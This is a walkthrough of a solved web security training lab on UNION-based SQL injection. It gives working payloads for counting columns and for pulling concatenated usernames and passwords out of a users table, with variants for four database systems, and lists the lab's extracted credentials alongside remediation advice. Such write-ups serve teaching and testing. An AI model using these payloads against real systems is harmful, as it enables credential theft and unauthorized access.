



# SQL Injection UNION Attack: Retrieving Multiple Values in a Single Column

## Lab Overview

**Level:** PRACTITIONER  
**Status:** ✅ Solved  
**Objective:** Perform a SQL injection UNION attack to retrieve all usernames and passwords from the `users` table, then use the extracted credentials to log in as the administrator.

## Vulnerability Details

The application contains a SQL injection vulnerability in the **product category filter**. The query results are reflected in the application's response, allowing an attacker to use a UNION-based attack to extract data from other tables.

**Target:** Product category filter  
**Target Table:** `users` (contains `username` and `password` columns)  
**Goal:** Extract all credentials and authenticate as administrator

## Solution Steps

### Step 1: Determine the Number of Columns

First, we identify how many columns are returned by the original query using the `ORDER BY` technique.

**Payload:**
```sql
' ORDER BY 2--
```

**Process:**
- Test incrementally: `ORDER BY 1--`, `ORDER BY 2--`, etc.
- The query succeeds with 2 columns
- The query fails when testing higher column counts

**Result:** The original query returns exactly **2 columns**.



### Step 2: Retrieve Multiple Values in a Single Column

Since we only have 2 columns and need to extract both `username` and `password`, we use **string concatenation** to combine both values into a single column output.

**Payload:**
```sql
' UNION SELECT null,username || ' ' || password FROM users--
```

**Execution Details:**
- Column 1: `null` (compatibility placeholder)
- Column 2: `username || ' ' || password` (concatenated string with space separator)
- Source: `users` table

The `||` operator concatenates strings together. The query combines username and password separated by a space character for readability.

**Result:** The query returns all users with their credentials in the format: `username password`



### Step 3: Extract Credentials and Authenticate

From the injected UNION query results, we extract the following credentials:

| Username | Password |
|----------|----------|
| wiener | 573t1pijsejrq6sqaa0 |
| carlos | eyyme0jqufuz43qnlraut |
| **administrator** | **gx3cmm450p8liacjo480** |

Using the administrator credentials:
- **Username:** administrator
- **Password:** gx3cmm450p8liacjo480

Successfully authenticate as the administrator user and complete the lab.



## Lab Completion

✅ **Lab Status: SOLVED**

The lab is marked as completed when:
- Successfully retrieve all usernames and passwords using UNION attack
- Extract administrator credentials: `administrator : gx3cmm450p8liacjo480`
- Authenticate as the administrator user
- Gain unauthorized access to the application

## Key Concepts Learned

### 1. **String Concatenation in SQL**
Different databases use different operators:
- **PostgreSQL, SQLite:** `||`
- **MySQL:** `CONCAT()` function
- **SQL Server:** `+` operator
- **Oracle:** `||`

### 2. **UNION Attack with Limited Columns**
When you have fewer available columns than needed data fields:
- Use string concatenation to combine multiple values
- Use delimiters (space, comma, colon) for readability
- Stack multiple queries if needed

### 3. **Data Extraction Chain**
- Discover column count → Identify data types → Locate target table → Extract sensitive data → Gain unauthorized access

### 4. **Credential-Based Access**
- Extracted credentials provide direct unauthorized access
- Administrator privileges typically allow full system compromise
- No additional exploitation needed once authenticated

## Attack Payloads Summary

| Step | Payload | Purpose |
|------|---------|---------|
| 1 | `' ORDER BY 2--` | Determine number of columns (result: 2) |
| 2 | `' UNION SELECT null,username \|\| ' ' \|\| password FROM users--` | Extract concatenated usernames and passwords |
| 3 | N/A | Use extracted credentials to authenticate |

## Extracted Data

```
Users Table Contents:
├─ wiener : 573t1pijsejrq6sqaa0
├─ carlos : eyyme0jqufuz43qnlraut
└─ administrator : gx3cmm450p8liacjo480 ✓ (Used to complete lab)
```

## Security Implications

1. **Credential Exposure** - All user passwords exposed to attacker
2. **Administrative Compromise** - Admin account credentials extracted
3. **Complete System Takeover** - Attacker gains highest privilege level
4. **Data Breach** - Sensitive user information compromised
5. **Query Result Leakage** - Application reflects injection results directly

## Database Differences

### PostgreSQL/SQLite (Used in this lab)
```sql
' UNION SELECT null,username || ' ' || password FROM users--
```

### MySQL
```sql
' UNION SELECT null,CONCAT(username,' ',password) FROM users--
```

### SQL Server
```sql
' UNION SELECT null,username + ' ' + password FROM users--
```

### Oracle
```sql
' UNION SELECT null,username || ' ' || password FROM users--
```

## Remediation

1. **Use Parameterized Queries/Prepared Statements**
   - Separate SQL code from data
   - Prevent injection altogether

2. **Input Validation**
   - Whitelist allowed characters
   - Validate data types and formats

3. **Principle of Least Privilege**
   - Database accounts should have minimal necessary permissions
   - Restrict access to sensitive tables

4. **Error Handling**
   - Don't expose database error messages
   - Use generic error responses

5. **Web Application Firewall (WAF)**
   - Detect UNION-based SQL injection patterns
   - Block suspicious queries

6. **Secure Password Storage**
   - Hash passwords with strong algorithms (bcrypt, Argon2)
   - Never store plaintext passwords
   - Use salt and iterations

## Impact Rating

**Severity: CRITICAL** 🔴

- **Confidentiality:** COMPROMISED (all user credentials exposed)
- **Integrity:** HIGH RISK (attacker can modify data as admin)
- **Availability:** HIGH RISK (attacker can delete/disable systems)
- **CVSS Score:** 9.8 (Critical)

## Lessons Learned

- String concatenation allows extraction of multiple data points through single columns
- Database operators vary by platform (||, CONCAT(), +)
- Concatenated output should use clear delimiters for parsing
- Administrator account compromise is critical - provides maximum access
- SQL injection enables complete system compromise through credential theft
